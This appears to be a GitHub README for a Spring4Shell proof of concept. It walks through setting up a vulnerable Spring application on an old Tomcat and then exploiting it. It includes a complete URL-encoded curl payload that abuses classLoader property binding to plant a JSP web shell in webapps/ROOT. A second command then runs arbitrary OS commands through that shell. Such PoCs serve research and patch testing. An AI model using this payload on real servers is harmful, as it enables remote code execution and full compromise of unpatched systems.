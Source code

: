 # spring4shell-poc
1) checkout the code in local using below link:

    git clone https://github.com/saikrishnasaski/spring4shell-poc.git

2) Download Apache Tomcat and setup in local. I have used 9.0.56 version. We can use any version below 9.0.60 to exploit.

3) Build the application in local and copy the war file to Tomcat webapps folder.

4) Now navivate tomcat bin folder and start the application using startup.sh or startup.bat

5) Now send the payload to application using below curl command

curl -v -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%20java.io.InputStream%20in%20%3D%20java.lang.Runtime.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20%7B%20out.println(new%20String(in.readAllBytes()))%3B%20%7D%20%25%3E&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://localhost:8080/spring4shell-poc-0.0.1-SNAPSHOT/spring4shell/message

Here:- spring4shell-poc-0.0.1-SNAPSHOT is context root of application

this payload uploads shell.jsp file to webapps/ROOT directory

6) Now we can run remote code using below command

curl http://localhost:8080/shell.jsp?cmd=whoami    (any linux command)

